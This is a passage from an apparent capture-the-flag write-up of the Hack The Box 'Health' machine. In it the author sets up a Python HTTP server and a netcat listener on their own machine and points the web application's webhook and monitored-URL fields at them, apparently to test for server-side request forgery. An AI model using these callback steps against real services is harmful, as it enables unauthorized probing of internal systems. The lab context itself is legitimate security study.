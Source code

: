 ![image](/assets/img/health/00.png)

The page requires to a `url` to be monitored then i entered the followings:-

**In my Linux machine(Attacker's machine)**
1. Hosting anything for testing.
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/www]
└─$ python3 -m http.server 80
```
2. Listen for if there is any hit from the web application.
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/www]
└─$ nc -nlvp 1235 
```

**In Web application**
1. In payload URL
	`http://10.10.14.18:1235`
2. In Monitored URL
	`http://10.10.14.18`
And then entered the interval and then testing it.

**Results**

In web application the result seems to be health
